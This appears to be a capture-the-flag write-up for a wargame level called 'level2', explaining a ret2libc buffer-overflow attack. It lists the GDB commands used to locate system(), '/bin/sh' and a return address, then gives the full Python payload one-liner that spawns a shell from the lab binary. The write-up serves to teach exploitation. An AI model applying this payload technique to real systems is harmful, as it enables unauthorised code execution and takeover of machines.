



# LEVEL2

In this level, we observe a condition that checks whether the address has been modified immediately after the *gets()* function. If it has, the program prints the modified address and then calls *exit()*. Therefore, we cannot exploit a buffer overflow with *gets()*, and will need to use a different approach.

```
objdump -R level2
```



After inspecting the object files, we can see that `libc` is present. Therefore, we can take advantage of it.

> The **libc**, also known as C standard library, provides macros, type definitions and functions for tasks such as string handling, mathematical computations, input/output processing, memory management, and several other operating system services.

With this knowledge, we can perform a `Ret2libc` attack. 

> The **Ret2libc** exploit replaces a function's return address with the address of a libc function. The subsequent bytes in memory are then overwritten with the addresses of additional libc functions to control program execution.

Next, we can use *gets()* to create a buffer overflow and inject the address of *system()* along with the string *"/bin/sh"* to gain a shell prompt.  Additionally, we must include the function's return address to bypass the overflow protection. We'll then use all those informations to build a payload. Let's get started!

First, we'll use a debugger like GDB to find the address of *system()*, *"/bin/sh"* and the return address.

```
> gdb level2
> break p
> run
> print system
```


We’ve obtained the address of *system()*, which is **0xb7e6b060**. Then, we'll locate the address of */bin/sh*. The string "/bin/sh" is located within *libc*, we can use the address range of *libc* to identify its precise location.

```
info proc map
```


We can see that the *libc* address range starts at **0xb7e2c000** and ends at **0xb7fd2000**. To locate "/bin/sh", we simply need to perform a `find` command within this range.

```
find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
```

The result is **0xb7f8cc58**.\
Finally, we need to retrieve the address of the function's return.

```
disassemble p
```


The address of return is **0x0804853e**.

Now, we can construct the payload using the following template:\
`payload = A*80 + address of return + address of system() + "DUMM" + address of "/bin/sh"`

```
python -c 'print("A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x58\xcc\xf8\xb7")' > /tmp/payload2
```

Then, we apply the payload to the binary.

```
cat /tmp/payload2 - | ./level2
```

**LEVEL2 COMPLETE!**